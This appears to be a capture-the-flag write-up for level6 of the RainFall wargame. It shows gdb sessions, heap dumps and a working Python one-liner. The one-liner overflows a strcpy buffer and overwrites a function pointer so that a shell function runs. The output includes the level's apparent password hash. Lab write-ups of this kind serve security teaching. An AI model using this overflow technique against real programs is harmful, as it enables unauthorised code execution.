 ```
0x08048454  n // shell
0x08048468  m // call puts
0x0804847c  main
```


b at
```
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
=> 0x080484ca <+78>:	mov    0x18(%esp),%eax
```
send 64 chars and inspect the heap

(gdb) info proc mappings

heap starts at 0x804a000

```
(gdb) x/40wx 0x804a000

0x804a000:	0x00000000	0x00000049	0x41414141	0x41414141
0x804a010:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a020:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a030:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a040:	0x41414141	0x41414141	0x00000000	0x00000011
0x804a050:	0x08048468

```
addr of func m() [0x08048468] could be seen in the heap 8 addr away from argv[1]
```
(gdb) p 64 + 4 + 4
$1 = 72
```


```
level6@RainFall:~$ ./level6  $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

```
man strcpy

SECURITY CONSIDERATIONS
     The strcpy() function is easily misused in a manner which enables mali-
     cious users to arbitrarily change a running program's functionality
     through a buffer overflow attack.
```

buffer argv1 is `movl   $0x40,(%esp)` = 64, we fuzz until the binary segv:

or maybe try cyclic tool:
```
cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```
pass it as argv in gdb:
```
(gdb) run "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa"

Program received signal SIGSEGV, Segmentation fault.
0x61616173
```

```
unhex 61616173
aaas%

cyclic -l saaa
72
```
```
level6@RainFall:~$ ./level6 $(python -c 'print "A"*72')
Segmentation fault (core dumped)
```
overflow the EIP with the addr of n()  0x08048454 
```
./level6 $(python -c 'print "A"*72 + "\x08\x04\x84\x54"[::-1]')
```











